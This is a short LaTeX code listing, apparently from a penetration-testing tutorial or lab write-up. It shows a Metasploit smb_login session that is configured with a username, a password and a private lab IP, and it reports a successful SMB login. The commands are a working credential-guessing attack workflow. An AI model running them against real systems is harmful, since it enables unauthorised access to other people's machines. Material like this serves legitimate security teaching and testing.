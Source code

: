 \begin{lstlisting}[language=bash,caption={Logging in}]
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASS_FILE                          no        File containing passwords, one per line
   PRESERVE_DOMAINS  true             no        Respect a username that contains a domain name.
   RECORD_GUEST      false            no        Record guest-privileged random logins to the database
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             445              yes       Set the SMB service port
   SMBDomain                          no        SMB Domain
   SMBPass                            no        SMB Password
   SMBUser                            no        SMB Username
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(smb_login) > set SMBPass summer
SMBPass => summer
msf auxiliary(smb_login) > set SMBUser User
SMBUser => User
msf auxiliary(smb_login) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_login) > run

[*] 192.168.248.131:445 SMB - Starting SMB login bruteforce
[+] 192.168.248.131:445 SMB - Success: 'WORKSTATION\User:summer'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_login) > 
\end{lstlisting}

